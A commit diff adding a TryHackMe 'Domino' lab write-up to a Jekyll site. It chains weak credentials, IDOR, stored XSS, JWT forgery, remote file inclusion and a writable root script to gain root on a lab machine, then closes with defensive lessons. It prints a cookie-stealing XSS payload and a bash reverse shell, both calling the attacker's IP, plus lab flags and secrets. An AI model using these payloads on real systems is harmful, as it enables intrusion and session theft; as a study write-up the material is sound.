

Before and after one commit to syardnl/syardnl.github.io, a Jekyll site: the page built from index.md, in a window 1280 px wide and 1400 px high, scrolled down 272 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
add new wruteup - domino thm

````diff
--- /dev/null
+++ b/_writeups/domino.md
@@ -0,0 +1,579 @@
+---
+layout: writeup
+title: "Domino"
+platform: "TryHackMe"
+machine: "Linux"
+image: "/assets/images/domino/domino.png"
+difficulty: "Medium"
+date: 2026-09-26
+description: "Chaining web application vulnerabilities from weak credentials and IDOR to administrator access, remote file inclusion, and root privilege escalation."
+tags:
+  - TryHackMe
+  - Linux
+  - Web
+  - IDOR
+  - XSS
+  - JWT
+  - RFI
+  - Privilege Escalation
+---
+# Domino — TryHackMe Write-up
+
+## Overview
+
+The **NexusCorp Employee Portal** appears to be a typical internal application protected by authentication and role-based access control. However, several weaknesses exist across different parts of the application.
+
+Rather than relying on a single vulnerability, the machine requires chaining multiple weaknesses together:
+
+1. Information disclosure to enumerate valid usernames
+2. Weak/default credentials
+3. Horizontal IDOR to access another user's data
+4. Stored XSS to steal an administrator's session cookie
+5. JWT privilege escalation
+6. Remote File Inclusion (RFI) to obtain a shell
+7. Credential reuse to switch from `www-data` to `devops`
+8. A writable script executed with root privileges for the final escalation
+
+The vulnerabilities form a chain where each step provides the access required for the next stage.
+
+> **Note:** IP addresses can change between machine resets/VPN sessions. The IPs shown below are the ones captured during my session.
+
+---
+
+# 1. Enumeration
+
+I started with a standard Nmap scan using default scripts and service/version detection.
+
+```bash
+sudo nmap -sC -sV -oN nmap_scan.txt 10.49.184.57
+```
+
+### Results
+
+```text
+PORT   STATE SERVICE VERSION
+22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16
+80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
+```
+
+The scan revealed two interesting services:
+
+* **SSH (22/tcp)** — OpenSSH 9.6p1
+* **HTTP (80/tcp)** — Apache 2.4.58
+
+Since the web application was exposed on port 80, I started investigating the NexusCorp portal.
+
+---
+
+# 2. Web Application Enumeration
+
+Opening the web server revealed the **NexusCorp Employee Portal**.
+
+The login page also exposed a link to an internal team list.
+
+![NexusCorp Portal](/assets/images/domino/image.png)
+
+The exposed team information contained several employee usernames. This information was useful because the login form could be tested against the discovered usernames.
+
+### Discovered usernames
+
+```text
+laura.hayes
+robert.wilson
+james.wright
+michael.chen
+emma.taylor
+sarah.johnson
+david.brown
+```
+
+The password-reset functionality did not appear to provide an obvious way to abuse the reset mechanism, so I moved on to testing the login functionality.
+
+---
+
+# 3. Weak Credentials
+
+I tested the discovered usernames against `rockyou.txt` using `ffuf`.
+
+```bash
+ffuf \
+-w username.txt:USER \
+-w /usr/share/wordlists/rockyou.txt:PASS \
+-X POST \
+-d "username=USER&password=PASS" \
+-H "Content-Type: application/x-www-form-urlencoded" \
+-u http://10.49.184.57/index.php \
+-fs 918
+```
+
+The response-size filter was used to remove the normal failed-login response.
+
+### Valid credentials discovered
+
+```text
+emma.taylor : password
+sarah.johnson : password
+robert.wilson : password
+```
+
+Three valid accounts were identified, all using the weak password:
+
+```text
+password
+```
+
+I proceeded with the `sarah.johnson` account.
+
+---
+
+# 4. Horizontal IDOR
+
+After logging in as `sarah.johnson`, I found an endpoint that returned user information based on an `id` parameter.
+
+The application did not properly verify whether the authenticated user was authorised to access the requested account.
+
+For example, changing the ID to:
+
+```text
+id=1
+```
+
+returned information belonging to another user:
+
+```json
+{
+    "id": 1,
+    "username": "laura.hayes",
+    "email": "laura.hayes@nexus.corp",
+    "role": "admin",
+    "notes": "THM{1d0r_h0r1z0nt4l_4cc3ss_fl4g1}"
+}
+```
+
+This is a **Horizontal Insecure Direct Object Reference (IDOR)** because a low-privileged user can access another user's object by changing the object identifier.
+
+More importantly, the response revealed that:
+
+```text
+laura.hayes
+role = admin
+```
+
+and exposed the first flag.
+
+### Flag
+
+```text
+THM{1d0r_h0r1z0nt4l_4cc3ss_fl4g1}
+```
+
+---
+
+# 5. Stored XSS Against the Administrator
+
+The application allowed users to create support tickets, and those tickets were reviewed by an administrator.
+
+This created an opportunity to test whether ticket content was safely sanitised before being rendered to the administrator.
+
+The session cookie was also accessible to JavaScript because it was not protected with the `HttpOnly` attribute.
+
+Therefore, a stored XSS payload could be used to send the administrator's cookie to my listener.
+
+### XSS payload
+
+```html
+<script>
+new Image().src="http://192.168.134.143:8000/?cookie="
+    + btoa(document.cookie);
+</script>
+```
+
+I started a listener on my machine:
+
+```bash
+nc -lnvp 8000
+```
+
+When the administrator reviewed the malicious ticket, the payload executed and generated a request back to my machine.
+
+The request contained the administrator's session cookie:
+
+```text
+GET /?cookie= HTTP/1.1
+Host: 192.168.134.143:8000
+User-Agent: python-requests/2.31.0
+Cookie: nexus_session=...
+```
+
+The stolen cookie represented:
+
+```text
+user_id = 1
+username = laura.hayes
+role = admin
+```
+
+Replacing my session cookie with the administrator's cookie allowed me to access functionality intended for the admin account.
+
+---
+
+# 6. JWT Privilege Escalation
+
+After obtaining administrative access, I investigated the application's API authentication mechanism.
+
+The application exposed:
+
+```text
+/api/auth/token.php
+```
+
+Requesting the endpoint returned a JWT:
+
+```json
+{
+    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9....",
+    "expires_in": 3600,
+    "note": "Use this token as: Authorization: Bearer <token> for /api/files.php"
+}
+```
+
+The JWT contained claims similar to:
+
+```json
+{
+    "sub": "laura.hayes",
+    "role": "user",
+    "iat": 1790265190,
+    "exp": 1790268790
+}
+```
+
+The API relied on the `role` claim when authorising access to `/api/files.php`.
+
+By abusing the application's JWT implementation and obtaining a token with:
+
+```json
+{
+    "sub": "laura.hayes",
+    "role": "admin"
+}
+```
+
+I was able to access the administrative file functionality.
+
+> **Important:** Simply changing the Base64-encoded JWT payload does not normally make a valid token. A modified JWT must still pass signature verification. Therefore, the vulnerable implementation must allow the forged/modified token to pass its verification mechanism.
+
+---
+
+# 7. Remote File Inclusion
+
+The administrative file endpoint accepted a `name` parameter.
+
+I tested whether the application would retrieve or include a file from an external URL.
+
+First, I prepared a reverse-shell payload and saved it as:
+
+```text
+shell.txt
+```
+
+I then hosted the file from my attacking machine:
+
+```bash
+python3 -m http.server 80
+```
+
+The vulnerable endpoint could then be accessed with:
+
+```http
+GET /api/files.php?name=http://192.168.134.143/shell.txt HTTP/1.1
+Host: 10.49.179.29
+Authorization: Bearer <ADMIN_TOKEN>
+```
+
+The important part of the request was:
+
+```text
+/api/files.php?name=http://192.168.134.143/shell.txt
+```
+
+The server fetched/included the remote file, causing the reverse-shell payload to execute.
+
+I prepared a listener on port `4444`:
+
+```bash
+nc -lnvp 4444
+```
+
+The connection came back as:
+
+```text
+Linux tryhackme-2404 6.17.0-1015-aws #15~24.04.1-Ubuntu
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+
+/bin/sh: 0: can't access tty; job control turned off
+$
+```
+
+I had successfully obtained a shell as:
+
+```text
+www-data
+```
+
+---
+
+# 8. First Foothold Flag
+
+After obtaining the web-server shell, I searched for the flag.
+
+```bash
+cat /opt/flag3.txt
+```
+
+The flag was:
+
+```text
+THM{rf1_2_rc3_f00th0ld_fl4g3}
+```
+
+---
+
+# 9. Credential Discovery
+
+With access as `www-data`, I searched the web application's files for configuration information.
+
+A configuration file contained database credentials and application secrets:
+
+```php
+define('DB_HOST', 'localhost');
+define('DB_NAME', 'nexusdb');
+define('DB_USER', 'app_user');
+define('DB_PASS', 'D3v0ps!2024');
+define('JWT_SECRET', 'nexus_jwt_s3cr3t_2024');
+define('APP_SECRET', 'nexus_app_k3y_2024');
+```
+
+The database password was:
+
+```text
+D3v0ps!2024
+```
+
+The password was also reused for the `devops` system account.
+
+This allowed me to switch users:
+
+```bash
+su devops
+```
+
+```text
+Password: D3v0ps!2024
+
+whoami
+devops
+```
+
+I had now moved from:
+
+```text
+www-data
+```
+
+to:
+
+```text
+devops
+```
+
+This demonstrates the danger of password reuse between application/database credentials and operating-system accounts.
+
+---
+
+# 10. Privilege Escalation to Root
+
+As `devops`, I inspected directories where scheduled or administrative scripts were stored.
+
+```bash
+ls -la /opt/monitoring
+```
+
+The directory contained:
+
+```text
+drwxr-xr-x 2 root root   4096 Apr 29 10:27 .
+drwxrwxrwx 5 root root   4096 May  7 20:26 ..
+-rwxrwxr-- 1 root devops  583 Sep 26 09:59 health_report.sh
+```
+
+The important permission was:
+
+```text
+-rwxrwxr--
+```
+
+The file was owned by:
+
+```text
+root:devops
+```
+
+and members of the `devops` group had write permission.
+
+Therefore, `devops` could modify the script.
+
+If the script was executed by a privileged process such as a root cron job, modifying it would provide a path to root execution.
+
+---
+
+# 11. Injecting a Reverse Shell
+
+I added a reverse-shell command to the writable script:
+
+```bash
+bash -i >& /dev/tcp/192.168.134.143/4445 0>&1
+```
+
+Then I started another listener:
+
+```bash
+nc -lnvp 4445
+```
+
+When the monitoring script executed with root privileges, the reverse shell connected back to my machine.
+
+The resulting shell was:
+
+```text
+root@tryhackme-2404:~#
+```
+
+I had successfully escalated from:
+
+```text
+www-data
+    ↓
+devops
+    ↓
+root
+```
+
+---
+
+# 12. Root Flag
+
+Finally:
+
+```bash
+cat root.txt
+```
+
+returned:
+
+```text
+THM{pr1v3sc_cr0n_r00t_fl4g5}
+```
+
+---
+
+# Attack Chain
+
+```text
+Information Disclosure
+        ↓
+Username Enumeration
+        ↓
+Weak Credentials
+        ↓
+Login as sarah.johnson
+        ↓
+Horizontal IDOR
+        ↓
+Discover Laura's Admin Account
+        ↓
+Stored XSS
+        ↓
+Steal Admin Session Cookie
+        ↓
+Administrative Access
+        ↓
+JWT Privilege Escalation
+        ↓
+Remote File Inclusion
+        ↓
+Reverse Shell as www-data
+        ↓
+Read Application Configuration
+        ↓
+Credential Reuse
+        ↓
+Switch to devops
+        ↓
+Writable Root-Executed Script
+        ↓
+Reverse Shell as root
+        ↓
+ROOT
+```
+
+---
+
+# Flags
+
+| Stage            | Flag                                |
+| ---------------- | ----------------------------------- |
+| IDOR             | `THM{1d0r_h0r1z0nt4l_4cc3ss_fl4g1}` |
+| Initial Foothold | `THM{rf1_2_rc3_f00th0ld_fl4g3}`     |
+| Root             | `THM{pr1v3sc_cr0n_r00t_fl4g5}`      |
+
+---
+
+# Key Lessons
+
+### 1. Information disclosure matters
+
+An exposed employee list may look harmless, but it can significantly reduce the difficulty of username enumeration and credential attacks.
+
+### 2. Weak passwords amplify other vulnerabilities
+
+The use of a common password allowed valid employee accounts to be discovered quickly.
+
+### 3. IDOR can expose sensitive information
+
+Object identifiers must always be checked against the authenticated user's authorisation. Simply changing an `id` should never provide access to another user's private data.
+
+### 4. Stored XSS can become account takeover
+
+A stored XSS vulnerability becomes particularly dangerous when privileged users review attacker-controlled content and session cookies are accessible to JavaScript.
+
+### 5. JWT claims must be properly protected
+
+The server must cryptographically verify JWTs and must not blindly trust client-controlled claims such as `role`.
+
+### 6. Remote file inclusion can lead directly to code execution
+
+Allowing an endpoint to retrieve/include arbitrary remote files can turn a file-handling feature into a remote-code-execution primitive.
+
+### 7. Credential reuse creates privilege-escalation paths
+
+The application password being reused by the `devops` operating-system account allowed a compromise of the web application to become an OS-level account compromise.
+
+### 8. File permissions are security boundaries
+
+A privileged script should never be writable by a lower-privileged user or group. Otherwise, an attacker may modify the script and execute arbitrary commands with the privileges of its execution context.
+
+---
+
+# Conclusion
+
+Domino demonstrates how several seemingly small weaknesses can be chained into a complete system compromise.
+
+No single vulnerability was responsible for the entire compromise. Instead, each weakness provided the access or information required for the next stage:
+
+```text
+Enumeration → Credentials → IDOR → XSS → Admin → JWT → RFI
+→ www-data → Credential Reuse → devops → Writable Script → Root
+```
+
+The main lesson is that application security cannot be evaluated by looking at vulnerabilities in isolation. Weak authentication, broken access control, unsafe input handling, insecure token validation, exposed secrets, credential reuse, and incorrect file permissions can combine into a much larger attack path.
--- a/index.md
+++ b/index.md
@@ -20,7 +20,6 @@
       <span class="eyebrow">EVENTS</span>
       <h2>Latest Competitions</h2>
     </div>
-    <a class="text-link" href="{{ '/competitions/' | relative_url }}">View all →</a>
   </div>
   <div class="card-grid">
     {% assign recent_competitions = site.competitions | sort: 'date' | reverse %}
@@ -49,7 +48,6 @@
       <span class="eyebrow">RECENT</span>
       <h2>Latest Lab Writeups</h2>
     </div>
-    <a class="text-link" href="{{ '/writeups/' | relative_url }}">View all →</a>
   </div>
   <div class="card-grid">
     {% assign recent = site.writeups | sort: 'date' | reverse %}
@@ -83,7 +81,6 @@
       <span class="eyebrow">BUILDING</span>
       <h2>Latest Projects</h2>
     </div>
-    <a class="text-link" href="{{ '/projects/' | relative_url }}">View all →</a>
   </div>
 
   <div class="card-grid">
````
Also changed, not shown: assets/images/domino/domino.png (added), assets/images/domino/image 1.png (added), assets/images/domino/image 2.png (added), assets/images/domino/image 3.png (added), assets/images/domino/image 4.png (added), assets/images/domino/image.png (added), 7 other files.
